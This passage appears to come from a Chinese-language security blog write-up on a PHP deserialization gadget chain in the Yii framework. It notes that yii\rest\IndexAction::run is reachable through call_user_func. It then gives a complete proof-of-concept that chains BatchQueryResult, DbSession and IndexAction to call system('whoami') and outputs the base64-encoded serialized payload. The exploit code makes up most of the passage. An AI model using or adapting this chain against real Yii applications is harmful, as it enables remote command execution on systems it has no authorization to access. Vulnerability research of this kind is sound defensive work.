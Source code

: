 类似于call_user_func($this->test);或者$test();这种只能调用没有参数的函数的结构。出来简单的调用phpinfo以外，我们也可以考虑将变量赋值为[(new test), "aaa"]这样的一个数组。就可以调用test类中的aaa公共方法。

直接搜索含有call_user_function的无参函数
找到了yii\rest\IndexAction中的run方法

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210921234540.png)

所有参数均可控，也就是说直接调用这个即可。
构造一下：

	<?php
	namespace yii\db{
	
    	use yii\web\DbSession;
	
    	class BatchQueryResult
		{
       		private $_dataReader;
        	public function __construct(){
            	$this->_dataReader=new DbSession();
        	}
    	}
	}
	namespace yii\web{
	
    	use yii\rest\IndexAction;
	
    	class DbSession{
        	public $writeCallback;
        	public function __construct()
        	{
            	$Troy3e=new IndexAction();
            	$this->writeCallback=[$Troy3e,'run'];
        	}
    	}
	}
	namespace yii\rest{
    	class IndexAction{
        	public $checkAccess;
        	public $id;
        	public function __construct(){
            	$this->checkAccess='system';
            	$this->id='whoami';
        	}
    	}
	}
	namespace{
	
    	use yii\db\BatchQueryResult;
	
    	echo base64_encode(serialize(new BatchQueryResult()));
	}
	?>
